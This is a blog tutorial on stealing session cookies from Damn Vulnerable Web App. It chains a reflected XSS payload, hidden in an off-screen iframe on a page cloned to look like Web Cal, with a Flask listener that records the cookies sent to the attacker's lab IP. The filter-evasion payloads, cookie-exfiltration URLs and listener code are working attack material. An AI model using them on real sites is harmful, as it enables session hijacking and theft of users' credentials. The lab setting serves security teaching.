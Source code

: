 ```yaml
---
layout: post
title: Reflected XSS Through iFrame
categories:
- reflected xss
- web hacking
---
```


Imagine we are targeting an instance of __Damn Vulnerable Web App__ on an enterprise network. In this totally realistic scenarior, there is also an instance of Web Cal running on the same network. The Web Cal instance is vulnerable to clickjacking. To gain access to DVWA, we can create a malicious web page that masquerades as the Web Cal instance using an iframe. We then could place a second iframe into the page that executes a reflected XSS attack against the target DVWA instance on page load. We could then use social engineering to trick a user into navigating to our fake Web Cal page, and by doing so steal the user's DVWA session. 

On my lab network, the attacking machine is located at 192.168.1.169. Both the DVWA instance and Web Cal are running on a shared server with an IP of 192.168.1.30. When you see these addresses in the tutorial, remember to substitute them for your own.

#Step 0

We start out by "cloning" the Web Cal instance using an iframe. Our index page is set up in such a way that the iframe expands to take up the entire width of the screen, no matter what device it is loaded on.

{% highlight html %}
{% raw %} 

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
    <head>
        <title>Web Cal</title>
        <style type="text/css">
            body, html
            {
                margin: 0; padding: 0; height: 100%; overflow: hidden;
            }

            #content
            {
                position:absolute; left: 0; right: 0; bottom: 0; top: 0px; 
            }
        </style>
    </head>
    <body>
        <div id="content">
            <iframe width="100%" height="100%" frameborder="0" src="http://192.168.1.30/webcal/"></iframe>
        </div>

    </body>
</html>

{% endraw %} 
{% endhighlight %}

When we load the page, it looks exactly like the Web Cal instance.

#Step 1

Once we have "cloned" the Web Cal instance, it's time to find a reflected XSS vulnerability in the target site. For this example we will be using the Reflected XSS page on __Damn Vulnerable Web App__, with difficulty set to medium.

We start out by attempting to pass in a script tag directly through the URL using the __name__ parameter.

{% raw %} 
	http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<script>alert('xss');</script>#
{% endraw %} 

This request seems to fail, and looking at the source code reveals some kind of filtering.

![oops]({{ site.baseurl }}images/iframes/xss-fail.png)

Filters can sometimes be evaded by randomizing the capitilization of the script tags, as shown below.

{% raw %} 
	http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<sCriPt>alert('xss');</sCriPt>#
{% endraw %} 

Success - the filter evasion works.

![oops]({{ site.baseurl }}images/iframes/xss-success.png)

#Step 2

Now that we have identified a means to reflect scripts off of the page, let's try to execute a script that writes an image tag to the DOM. For our image, let's use this glorious picture of John Cena.

![john cena](http://www.wwe.com/f/styles/wwe_large/public/rd-talent/Bio/John_Cena_bio.png)

The following url should successfully load the image. We can't just straight up drop an image tag into the page, because doing so would not allow us to include the user's session cookie in the image tag. Insted we write the image tag to the DOM using a script tag.

{% raw %} 
	http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<ScrIpt>document.write('<img src=\"http://www.wwe.com/f/styles/wwe_large/public/rd-talent/Bio/John_Cena_bio.png\"></img>')</sCriPt>#

{% endraw %} 

#Step 3

Now that we can write images to the page, let's do it from an iframe. We take the URL we created in step 2 and use it as the frame's source. We place the iframe in the index.html file we created earlier.

{% highlight html %}
{% raw %} 

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
    <head>
        <title>Test Layout</title>
        <style type="text/css">
            body, html
            {
                margin: 0; padding: 0; height: 100%; overflow: hidden;
            }

            #content
            {
                position:absolute; left: 0; right: 0; bottom: 0; top: 0px; 
            }
        </style>
    </head>
    <body>
        <div id="content">
            <iframe width="100%" height="100%" frameborder="0" src="http://192.168.1.30/webcal/"></iframe>
        </div>

	<iframe style="position:absolute;top:99px" src="http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<ScrIpt>document.write('<img src=\"http://www.wwe.com/f/styles/wwe_large/public/rd-talent/Bio/John_Cena_bio.png\"></img>')</sCriPt>#"></iframe>


    </body>
</html>

{% endraw %} 
{% endhighlight %}

We then try to access our index.html page. If we see John Cena inside the iframe, we know the image tag injection worked.

![oops]({{ site.baseurl }}images/iframes/oops.png)

Uh oh! Check out the results above. Simply escaping the double quotes for our image tag's source does not seem to be working. 

To fix this problem, we need to use html entities for the quotes in the image tag. We modify the iframe we added to index.html to look like this:

{% highlight html %}
{% raw %} 

	<iframe style="position:absolute;top:99px" src="http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<ScrIpt>document.write('<img src=&quot;http://www.wwe.com/f/styles/wwe_large/public/rd-talent/Bio/John_Cena_bio.png&quot;></img>')</sCriPt>#"></iframe>

{% endraw %} 
{% endhighlight %}

Success! John Cena has entered the iframe.

![oops]({{ site.baseurl }}images/iframes/cena-in-frame.png)

#Step 4

Now for the finishing touches of our attack. Let's get rid of John Cena and aim our image's src to a a non existent image tag on our server. We'll attempt to set the filename to the victim's cookie. If all goes according to plan, the user's cookie should show up in our httpd error log.

{% highlight html %}
{% raw %} 

	<iframe style="position:absolute;top:99px" src="http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<ScrIpt>document.write('<img src=&quot;192.168.1.169:4444?c='+document.cookie+'&quot;></img>')</sCriPt>#"></iframe>

{% endraw %} 
{% endhighlight %}

Tailing /var/log/httpd/error.log while making a request to http://localhost/ reveals that something isn't quite right. No record of our attempt to access the invalid image file shows up in our logs, which tells us that the request never happened in the first place.

![oops]({{ site.baseurl }}images/iframes/log-nope.png)

To learn why, we look at the source code of our loaded iframe. Notice how the image that we tried to write to the server does not contain any cookies. Instead, we see the following value for the tag's source attribute.

![oops]({{ site.baseurl }}images/iframes/concat-fail.png)

The problem is that since the image tag is being passed in through the URL, our plus signs are being converted into whitespace. This prevents us from easily using JavaScript string concatenation. The workaround is to use array joins instead.

{% highlight html %}
{% raw %} 

	<iframe style="position:absolute;top:99px" src="http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<ScrIpt>document.write(['<img src=&quot;http://192.168.1.169/',document.cookie,'.png&quot;></img>'].join(''))</sCriPt>#"></iframe>

{% endraw %} 
{% endhighlight %}

Tailing our log file while reloading the page once again, we see that the image request has gone through successfully. 

![oops]({{ site.baseurl }}images/iframes/log-win.png)

Awesome. Now all we have to do is modify the image url slightly so that it passes the victim's cookies as a GET parameter.


{% highlight html %}
{% raw %} 

	<iframe style="position:absolute;top:99px" src="http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<ScrIpt>document.write(['<img src=&quot;http://192.168.1.169:4444/?c=',document.cookie,'&quot;></img>'].join(''))</sCriPt>#"></iframe>

{% endraw %} 
{% endhighlight %}

We then use a quick Python script to set up a listener for the GET request.

{% highlight python %}
	
	from flask import Flask, request, render_template, abort
	from flask.ext.cors import CORS
	
	app = Flask(__name__)
	app.debug = True
	
	CORS(app)
	
	@app.route('/')
	def index():
	
	    cookies = request.args.get('c')
	    with open('cookies.txt', 'a') as fd:
	        print
	        print
	        print
	        print cookies
	        fd.write(cookies)
	    return abort(404)
	
	app.run(host='0.0.0.0', port=4444)

{% endhighlight %}


After reloading the page, we get the following output.


![oops]({{ site.baseurl }}images/iframes/cookies-stolen.png)

#Step 5

The mechanics behind the session hijacking attack are tested and complete. Now we just modify the iframe we added to our index.html page such that it is lifted completely outside of the visible portion of the page. By doing this, user is completely unaware that they've visited DVWA, let alone had their creds stolen.

{% highlight html %} 
{% raw %} 

	<iframe style="position:absolute;top:-9999px" src="http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<ScrIpt>document.write(['<img src=&quot;http://192.168.1.169:4444/?c=',document.cookie,'&quot;></img>'].join(''))</sCriPt>#"></iframe>

{% endraw %} 
{% endhighlight %}

Here's a quick video on how the attack could play out. In the video, an email is sent to an administrator complaining that the Wiki page is down. The administrator opens the email, clicks the link, and navigates to what appears to be the Wiki page. The administrator's session is stolen, and the administrator navigates away from the page believing that the ticket is a false alarm.

<iframe width="560" height="315" src="https://www.youtube.com/embed/ZlV3fb8bnus" frameborder="0" allowfullscreen></iframe>

